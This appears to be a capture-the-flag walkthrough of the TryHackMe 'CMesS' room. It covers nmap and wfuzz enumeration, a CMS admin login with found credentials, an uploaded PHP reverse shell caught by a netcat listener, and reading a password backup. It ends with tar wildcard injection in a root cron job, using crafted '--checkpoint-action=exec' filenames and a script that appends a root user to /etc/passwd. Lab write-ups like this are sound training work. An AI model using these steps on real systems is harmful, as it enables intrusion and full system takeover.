 # CMesS

**Room Link**: [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://cmess.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



Mostly junk

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>



## Fuzzing Domains

Fuzzed with a long subdomain list then filtered to reduce the amount of results. Only one stands out, dev.&#x20;

**Kali**

```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://cmess.thm/' -H "Host: FUZZ.cmess.thm" > results.txt

grep -v '290 W' results.txt
```

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

I added dev.cmess.thm to my host file and found this page

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to login to the admin portal with these credentials

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: andre@cmess.thm
Password: KPFTN_f2yxe%
```

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/51569](https://www.exploit-db.com/raw/51569)



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The shell they use is bad so I upload a new one to get a reverse shell instead

**Shell Link:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



We find andre's password in a backup file

**Victim**

```
cd /opt
ls -lah
cat .password.bak 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## TCP/21 - SSH

**Kali**

```
ssh andre@$VICTIM
Password: UQfsdCB7aAP6
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privlege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/andre/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





